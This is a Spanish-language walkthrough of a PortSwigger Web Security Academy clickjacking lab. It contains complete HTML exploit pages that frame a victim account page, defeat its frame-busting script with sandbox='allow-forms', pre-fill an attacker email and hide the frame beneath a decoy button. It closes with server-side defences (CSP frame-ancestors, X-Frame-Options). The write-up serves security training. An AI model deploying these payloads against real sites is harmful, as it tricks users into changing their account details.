

## Frame busting scripts

Los ataques de clickjacking son posibles siempre que los sitios web puedan enmarcarse. Por lo tanto, las técnicas preventivas se basan en restringir la capacidad de enmarcado de los sitios web. Una protección común del lado del cliente que se aplica a través del navegador web es el uso de scripts para romper marcos o frame busting. Estos pueden implementarse a través de complementos o extensiones JavaScript propietarios del navegador, como NoScript. Los scripts suelen estar diseñados para que realicen algunos o todos los siguientes comportamientos:

- Comprobar y garantizar que la ventana de la aplicación actual sea la ventana principal o superior.
- Hacer visibles todos los marcos.
- Evitar que se haga clic en marcos invisibles.
- Interceptar y señalar posibles ataques de clickjacking al usuario.

Las técnicas de eliminación de marcos suelen ser específicas de cada navegador y plataforma y, debido a la flexibilidad del HTML, los atacantes suelen poder eludirlas. Dado que los eliminadores de marcos son JavaScript, la configuración de seguridad del navegador puede impedir su funcionamiento o de hecho, es posible que el navegador ni siquiera sea compatible con JavaScript. Una solución eficaz contra los eliminadores de marcos es utilizar el atributo iframe `sandbox` de HTML5. Cuando se configura con los valores `allow-forms` o `allow-scripts` y se omite el valor `allow-top-navigation`, el script rompedor de marcos puede neutralizarse, ya que el iframe no puede comprobar si se trata o no de la ventana superior:

```c
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Los valores `allow-forms` y `allow-scripts` permiten las acciones especificadas dentro del iframe, pero la navegación de nivel superior está desactivada. Esto inhibe los comportamientos de frame busting, al tiempo que permite la funcionalidad dentro del sitio de destino.

## Lab: Clickjacking with a frame buster script


En este laboratorio se necesita cambiar el correo el usuario victima.


Por lo que primero, debemos entender que se tiene un `input` en el cual debe contener el valor o el email del atacante. Lo que se hizo fue poner en el url `email=attacker@email.com` y este es reflejado en nuestro input.

```c
https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com
```


Ahora podemos construir nuestro iframe malicioso.

```html
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 600px;
            opacity: 30%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:515px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com"></iframe>
</body>
</html>
```

Al ejecutar nuestro exploit vemos que este no da un un mensaje de `this page cannot be  framed`  


Esto puede ocurir por varios motivos:

 Encabezados HTTP
- X-Frame-Options: puede estar en:
	- `DENY` → no se puede mostrar en ningún `<iframe>`.
	- `SAMEORIGIN` → solo se puede mostrar en un `<iframe>` si el sitio padre tiene el mismo dominio.

`Content-Security-Policy`: frame-ancestors → define explícitamente qué orígenes pueden embeber la página. Ejemplo:

```c
Content-Security-Policy: frame-ancestors 'self' https://trusted.com;
```

Si la página tiene cualquiera de esos, el navegador bloquea la carga y te muestra algo como “This page cannot be framed”.

En estos casos agregamos un `sandbox="allow-forms"`

- https://www.w3schools.com/tags/att_iframe_sandbox.asp


Luego podremos modificar la posicion de nuestro `<div>` para que cuandre bien junto al boton.

```html
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 30%;
            z-index: 2;
        }
        div {
            position:absolute;
            top:470px;
            left:60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a13003304fc926e801a037c006700c3.web-security-academy.net/my-account?email=seven@seven.com" sandbox="allow-forms"></iframe>
</body>
</html>
```

Cambiamos a ` opacity: 0.00001;` y enviamos a la victima.


### Qué hace `sandbox` y por qué esos scripts se neutralizan

El atributo `sandbox` aplica varias restricciones al documento embebido:

- **Sin `allow-top-navigation`**: el iframe **no puede** navegar la `top window`. Cualquier intento de `window.top.location = ...` será bloqueado (o lanzará excepción) y por lo tanto el frame-buster no puede forzar la navegación superior.
    
- **Sin `allow-same-origin`** (valor por defecto cuando pones `sandbox`): el iframe obtiene un _unique opaque origin_, así que no comparte origen con su recurso original; muchas operaciones entre frames quedan prohibidas por política de mismo origen.
    
- **Si además no permites `allow-scripts`**, los scripts ni siquiera corren; si permites `allow-scripts` pero no `allow-top-navigation`, los scripts pueden ejecutarse dentro del iframe pero siguen sin poder navegar el top.

por eso:

```c
<iframe src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

neutraliza la mayoría de _frame-busters_: el iframe permite enviar formularios (`allow-forms`) pero **no** puede tocar la `top` (no `allow-top-navigation`) y normalmente los scripts del frame tampoco pueden correr si no pones `allow-scripts`. Incluso si permites scripts (`allow-scripts`) mientras **no** das permiso para top navigation, los intentos de “salir” seguirán fallando.

### Importante — cuándo `sandbox` NO ayuda

- **Encabezados HTTP**:
    - `X-Frame-Options: DENY` / `SAMEORIGIN` y `Content-Security-Policy: frame-ancestors` son impuestos por el navegador _antes_ de ejecutar JS. Si la página objetivo usa esos encabezados, **no** podrás embeberla en casi ningún navegador — el `sandbox` **no** los anula.
    - En otras palabras: `sandbox` puede neutralizar _scripts_ de busting, pero **no** permite evadir protecciones basadas en encabezados (que son la solución correcta del lado servidor).
- **Si añades `allow-top-navigation` o `allow-top-navigation-by-user-activation`**: entonces le das permiso explícito para navegar el top y el frame-buster puede funcionar otra vez.
- **Si añades `allow-same-origin` + `allow-scripts`**: el iframe recupera su origen y scripts totalmente funcionales; combinado con `allow-top-navigation` te quitas todas las barreras — cuidado.

### Resumen práctico / recomendaciones

- **Para protegerte contra clickjacking (servidor):** usa `Content-Security-Policy: frame-ancestors 'self'` (moderno) o `X-Frame-Options` como respaldo. Esto es más fiable que depender solo de scripts cliente.
- **Para embeber contenido de terceras partes de forma segura (cliente/padre):** usar `sandbox` sin `allow-top-navigation` ni `allow-same-origin`. Concede solo lo mínimo (por ejemplo `sandbox="allow-forms"` si solo necesitas que envíen formularios).
- **Si necesitas scripts dentro del iframe pero quieres evitar que manipulen top:** pon `allow-scripts` **pero no** `allow-top-navigation` ni `allow-same-origin`. Ten en cuenta límites (cross-origin restrictions) y que algunos frame-busters siguen intentándolo (postMessage, etc.).
- **Comprobación rápida (devtools / curl):** revisa si la página responde con `X-Frame-Options` o `Content-Security-Policy`. Si existen, el navegador impedirá el framing aunque uses `sandbox`.